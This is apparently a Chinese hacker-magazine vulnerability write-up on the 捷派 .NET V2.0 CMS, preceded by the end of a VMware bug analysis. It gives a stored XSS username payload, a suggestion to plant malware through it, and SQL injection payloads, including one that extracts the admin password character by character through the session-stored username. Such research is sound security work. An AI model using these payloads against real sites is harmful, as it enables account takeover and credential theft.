




























```

至此，VMware 的这个所谓 Critical 漏洞的分析就告一段落了，有兴趣的朋友，并且操作系统是 Windows Vista 之前版本的，可以自己完成一下漏洞的利用代码。尤其需要注意的是，VMware Tools Open Source 中并没有 Win32 部分的代码，因此你可能需要根据实际情况酌情将其补充完整。
适合读者：入侵爱好者

前置知识：无

## 捷派风波

### ——捷派网站管理系统 .net V2.0 漏洞分析

文／图 Cschi

上期我们介绍了如何爆破零点CMS3.21，近日又偷闲到了捷派官方网站（www.just4.cn），发现已经采用 ASP.net 编写，并且发布了 2.0 版。既然是一脉相承，那么就继续分析此版本吧。不看倒还罢了，一看便疑虑重重，是否存在漏洞暂且不提，仅用记事本打开“member/member_reg.aspx”文件时，其中严密的正则表达式就令人不得不怀疑捷派是否有意在零点CMS3.21中设了局，如图1所示。要知道零点CMS3.21就是因为正则表达式存在缺陷而被爆破的。

## 检测

首先搭建 IIS，IP 设为 127.0.0.1，Windows 2003 需要在“Web服务扩展”中手工“允许”（默认“禁止”）ASP.net，如图2所示，然后注册 test 用户，如图3所示。
图2
图1

都说天下没有“免费的午餐”，可谁让我们都是穷人呢？生活还得继续，安全也得常谈嘛。好了，言归正传，在享用捷派.net V2.0 这盘大餐前，让我们先仔细检验一番吧，顺便也熟悉一下 .net。
图3

捷派.net V2.0 应该不会犯低级错误的，正常页面链接检测忽略，直接用 WinSockExpert 监听 test 用户登录，如图4所示。很显然，捷派.net V2.0 使用 Session 验证用户，看来 Cookie 也没得用了。
图4

按照《零点爆破》的方法检测登录页面（详细过程略），结果无功而返。再试着通过外部提交进行注册。另存注册页面（Member/Member_Reg.aspx）为 html 文件，修改 `action=""` 为 `action="http://127.0.0.1/Member/Member_Reg.aspx"`，同时删除“立即注册”按钮的事件 `onclick="return CheckRegisterMember();"`，然后注册 `test' and '1'='1` 用户，耶？竟然注册成功!? 如图5所示。
图5

再测试 `test' and '1'='2`，同样可以注册成功，而且可以正常登录！可见 and 条件不起作用！查看数据库 JT_Member 表，发现单引号被写入，如图6所示。由此可以断定注册时用户名中的单引号已经被替换成双引号，成为用户名中的字符了。
图6

既然单引号可以被写入，那么我们就试试跨站吧。注册 `<Script>alert(/CSS/)</Script>`，刷新首页，成功跨站！如图7所示。至于如何深度利用，这里就不探讨了，相信大家都比较熟悉了。如果我们注册 `<Script>`（或其他标签）后，将直接影响到首页的页面框架，那么直接挂马呢？问题应该是严重的。真可谓无需注入，无需破解，更无需进后台，注册一个用户就足以“黑”掉捷派！
图7

结论：捷派.net V2.0 注册页面存在漏洞，可以外部提交注册，但是用户名中的单引号被替换为双引号，使得单引号成为用户名中的字符！

我们继续浏览页面。在投票时，捷派限制每个用户（默认）只允许投票1次。当我们使用 `test' and '1'='1` 登录时会受此限制，而使用 `test' and '1'='2` 登录后则不受限制！OK！可见 and 条件有效了——极有可能存在注入！下面我们详细分析一下。

## 分析

捷派.net V2.0 基于 ASP.net 编写，并将源码编译成 DLL（bin 目录中），所以必须进行反编译。我们使用的工具有 Reflector 和 Reflector.FileDisassembler.dll。运行 Reflector 后，选择菜单“View->Add-Ins”添加 Reflector.FileDisassembler.dll 文件，再依次打开 bin 目录中的 5 个 DLL 文件，用“Tools->File Disassembler”进行反编译，如图8和图9所示。

下面我们就从投票页面文件 VoteResult.aspx 开始分析，代码如下。
图8
图10
图11
图9

```asp
<%@ Register Assembly="JustCmsKenel" Namespace="Just.CmsKenel.WebControls" TagPrefix="Just" %>
...
<Just:JcVoteInfo runat="server" SkinName="Default">
```

根据上面的代码，我们打开 `bin\JustCmsKenel_Source\Just.CmsKenel.WebControls\JcVoteInfo.cs` 文件（使用 Reflector 反编译 *.DLL 文件后，源码默认存放在“*_Source”目录中），从页面 OnLoad 事件中可以得知，当表单提交的 VoteThemeID 非空时，将调用 JcVoteThemeRecord.Vote 方法，如图10所示。使用 DreamWeaver 查找“JcVoteThemeRecord”，打开 `bin\JustCmsKenel_Source\Just.CmsKenel.DAL.Vote\JcVoteThemeRecord.cs` 文件，找到 Vote 方法中关于投票次数限制的代码（第174行），如图11所示。

完整的 SQL 语句如下，iVoteThemeID 的值由 JcVoteThemeRecord.GetCurrentThemeID 方法获得，不能利用！JcMemberRecord.GetLoginInfo()，MemberID 的值应该是我们当前登录的用户名了，那么肯定没有过滤！

```sql
Select count(*) from JT_VoteCollection Where ThemeID='" + iVoteThemeID.ToString() + "' and MemberID='" + JcMemberRecord.GetLoginInfo().MemberID + "'"






```

至于 GetLoginInfo().MemberID 是如何获取的，分析比较繁琐，此处略。我们只需要知道该变量获得时没有过滤即可！尽管捷派使用 Session 验证用户，但对 Session 变量中的非法字符却未做处理并直接引用，这与 Cookies 注入非常相似，不同的是 Cookies 可以修改，Session 无法修改，但我们可以用构造的 SQL 语句作为用户名进行注册，这样登录后不就可以使用 Session 中的 SQL 语句了吗？

分析所有调用 GetLoginInfo().MemberID 变量的 SQL 语句（如图12所示，按“文件”排序），我们可以忽略 Admin 和隐藏功能的页面（捷派2.0许多功能尚未公开，如应聘职位 member_Member_Job.cs、购物中心 Member_PayCenter.cs、考试中心 Member_Exam.cs 等），注册会员登录后界面还很简陋，“我的帐户”中两个功能无法正常使用！剩下的只有“我的短消息”（Member_PM.cs）、“个人资料修改”（Member_Member_Info.cs）和“文章投稿管理”（Member_Article.cs）。
图12

## 利用

- 利用1：会员中心（Member/Member_Main.aspx），涉及语句如图13所示（JustCmsNt_Source\_Member_Main.cs，行32）。
图13

方法：由于使用了“count(*)”数学函数，SQL 语句就不会返回空，如果构造 union 语句就必须使用“Order by”排序，可是 GetLoginInfo().MemberID 后面还有语句，Access 又不支持注释，最终因为无法进行排序不得不放弃。比如构造如下的 union 语句：

```sql
select count(*) from JT_PM Where Receiver='test'
union select memberpass from jt_member where memberid='admin' union select count(*) from JT_PM Where Receiver='test' and isRead=0
//具体部分作为用户名，可以根据需要构造，其它不能改变！



```

在 Access 中测试该 union 语句，始终都无法将 union 出的 memberpass 字段内容排序到第一条！如图14所示，因此不得不放弃 union 语句。
图14

难道我们要放弃这个注入点？回头看看图13中的 SQL 语句，实际是统计当前用户未读短消息数，那么我们就在短消息上做文章！构造如下的 SQL 语句：

```sql
select count(*) from JT_PM Where Receiver='test' and Title=(select mid(adminpass,1,1) from jt_member where memberid='admin') and '1'='1' and isRead=0
//具体部分作为用户名，可以根据需要构造，其它不能改变！










